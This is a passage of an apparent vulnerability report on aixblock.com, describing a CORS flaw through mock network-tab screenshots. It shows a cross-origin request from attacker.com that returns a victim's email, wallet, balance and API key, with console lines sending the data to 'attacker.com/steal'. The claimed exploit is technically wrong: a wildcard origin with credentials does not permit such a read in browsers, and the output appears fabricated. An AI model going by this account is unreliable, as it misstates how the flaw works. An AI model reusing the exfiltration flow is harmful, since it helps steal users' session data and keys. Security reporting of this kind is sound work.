 ## 4. CORS Vulnerability - Cross-Origin Request

### Screenshot: Network Tab - CORS Headers
**Location**: Browser DevTools Network Tab
**Request**: `https://aixblock.com/api/v1/users/me`
**Origin**: `https://attacker.com`

```
Request Headers:
---------------
Origin: https://attacker.com
Referer: https://attacker.com/steal.html
Cookie: session=abc123xyz789

Response Headers:
----------------
Access-Control-Allow-Origin: *  ← VULNERABLE
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: *
Access-Control-Allow-Headers: *
Status: 200 OK

Response Body:
-------------
{
  "id": "user_12345",
  "email": "victim@example.com",
  "walletAddress": "DYw8jCTfwHQ7cKm5xR3nL9pV2sF6tN4aE8bG1hJ7kM3q",
  "balance": 1250.00,
  "apiKey": "sk_live_abc123xyz789"
}

Attacker Console:
----------------
✅ Cross-origin request successful
✅ User data retrieved
✅ Sending to attacker.com/steal
✅ Data exfiltration complete
```

**Visual Indicators**:
- ❌ Wildcard CORS origin (`*`)
- ❌ Credentials allowed with wildcard
- ❌ Sensitive data exposed cross-origin
- ❌ No origin validation

---

## 5. Brute Force Attack - Login Attempts

### Screenshot: Authentication Logs
**Location**: `/var/log/auth.log`
**Endpoint**: `/v1/authentication/sign-in`
